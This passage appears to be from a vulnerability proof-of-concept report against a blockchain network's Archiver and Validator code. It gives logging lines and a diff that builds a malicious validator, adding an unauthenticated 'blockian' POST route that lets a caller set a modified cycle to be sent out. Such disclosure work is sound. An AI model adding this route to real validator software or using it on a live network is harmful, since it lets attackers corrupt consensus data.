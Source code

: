 Basically, all we need to do is create a malicious Validator to execute this attack, but to make the POC easier to perform, I added some additional logs to the Archiver for additional visibility, I suggest adding them as well.\
In the `collectCycleData` function add the following logs after the `minCycleConfirmations` calculation:

```ts
    Logger.mainLogger.info(`------ BLOCKIAN ------`)
    Logger.mainLogger.info(`BLOCKIAN1 -> minCycleConfirmations: ${minCycleConfirmations}, senderInfo: ${senderInfo}`)
    Logger.mainLogger.info(`BLOCKIAN2 -> receivedTimes: ${receivedCycleTracker[cycle.counter][cycle.marker]['receivedTimes']}, senderInfo: ${senderInfo}`)
    Logger.mainLogger.info(`BLOCKIAN3 -> cycle: ${JSON.stringify(cycle)}, senderInfo: ${senderInfo}`)
    Logger.mainLogger.info(`------ BLOCKIAN ------`)
```

#### Creating a Malicious Validator

Modify the `core` repository with the following diffs:

**Diff 1 - Adding a Custom Route to Modify the Cycle**

```diff
diff --git a/src/p2p/Join/routes.ts b/src/p2p/Join/routes.ts
index f415f8ab..f26544cd 100644
--- a/src/p2p/Join/routes.ts
+++ b/src/p2p/Join/routes.ts
@@ -328,6 +328,23 @@ const standbyRefreshRoute: P2P.P2PTypes.Route<Handler> = {
   },
 }
 
+const blockianRoute: P2P.P2PTypes.Route<Handler> = {
+  method: 'POST',
+  name: 'blockian',
+  handler: (req, res) => {
+    console.log("got request from blockian")
+    const body = req.body
+    if (body.debug) {
+      return res.json({ ...body, gotBlockian: true })
+    }
+
+    Comms.modifyCycle.shouldModify = body.shouldModify
+    Comms.modifyCycle.cycle = body.cycle
+
+    res.json({ success: true })
+  },
+}
+
 const joinedV2Route: P2P.P2PTypes.Route<Handler> = {
   method: 'GET',
   name: 'joinedV2/:publicKey',
@@ -778,7 +795,7 @@ const gossipStandbyRefresh: P2P.P2PTypes.GossipHandler<
 }
 
 export const routes = {
-  external: [cycleMarkerRoute, joinRoute, joinedRoute, joinedV2Route, acceptedRoute, unjoinRoute, standbyRefreshRoute],
+  external: [blockianRoute, cycleMarkerRoute, joinRoute, joinedRoute, joinedV2Route, acceptedRoute, unjoinRoute, standbyRefreshRoute],
   gossip: {
     'gossip-join': gossipJoinRoute,
     'gossip-valid-join-requests': gossipValidJoinRequests,
```
